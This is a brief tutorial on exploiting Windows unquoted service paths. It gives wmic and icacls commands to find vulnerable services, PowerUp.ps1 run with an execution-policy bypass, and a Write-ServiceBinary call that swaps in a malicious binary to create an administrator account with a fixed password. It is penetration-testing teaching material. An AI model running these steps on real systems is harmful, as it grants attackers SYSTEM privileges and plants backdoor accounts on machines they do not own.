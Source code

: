When a service is created whose executable path contains spaces and isn’t enclosed within quotes, leads to a vulnerability known as Unquoted Service Path which allows a user to gain SYSTEM privileges (only if the vulnerable service is running with SYSTEM privilege level which most of the time it is). In Windows, if the service is not enclosed within quotes and is having spaces, it would handle the space as a break and pass the rest of the service path as an argument.

We find unquoted paths with the command

```powershell
wmic service get name,pathname |  findstr /i /v "C:\Windows\\" | findstr /i /v """
```

We must check if we have write permissions on the executable in order to replace it with a new one.

```powershell
icacls "C:\Program Files\Enterprise Apps\path\to\service.exe"
```

Then if we have permission on the service we can start or stop it with `Start-Service` or `Stop-Service` command. Once we got the paths we can use PowerUp.ps1 for exploiting the service. This means the service will be replaced with a malicious exe.

```powershell
Get-UnquotedService
powershell -ep bypass
. .\PowerUp.ps1
```

And finally we run the command to overwrite the service with

```powershell
Write-ServiceBinary -Name 'GammaService' -Path "C:\Program Files\Enterprise Apps\Current.exe"
```

Now restarting the service will grant us an Administrator account with user john and Password123! as credentials

```powershell
Restart-Service GammaService
```